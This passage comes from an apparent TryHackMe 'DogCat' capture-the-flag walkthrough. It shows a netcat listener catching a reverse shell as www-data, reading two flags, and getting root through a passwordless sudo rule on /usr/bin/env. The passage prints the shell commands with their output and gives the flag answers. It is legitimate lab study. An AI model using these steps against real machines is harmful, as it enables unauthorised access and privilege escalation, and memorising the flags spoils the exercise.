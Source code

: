 And now we have a shell as "www-data"

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.2.65] from (UNKNOWN) [10.10.24.27] 59548
Linux 832a825e8843 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 16:39:46 up 34 min,  0 users,  load average: 0.00, 0.00, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## Flag 1

I remember that I saw a file in `/var/www/html` with word **"flag"** in it and I was right.

~~~
cd /var/www/html
cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
~~~

Flag 1: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

## Flag 2

I found flag 2 in `/var/www/`:

~~~
cat /var/www/flag2_QMW7JvaY2LvK.txt

THM{LF1_t0_RC3_aec3fb}
~~~

Flag 2: `THM{LF1_t0_RC3_aec3fb}`

## Going Root

Next I tried `sudo -l` to see my permissions and I can easily gain root access:

~~~
sudo -l
Matching Defaults entries for www-data on 832a825e8843:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 832a825e8843:
    (root) NOPASSWD: /usr/bin/env
sudo /usr/bin/env /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
~~~
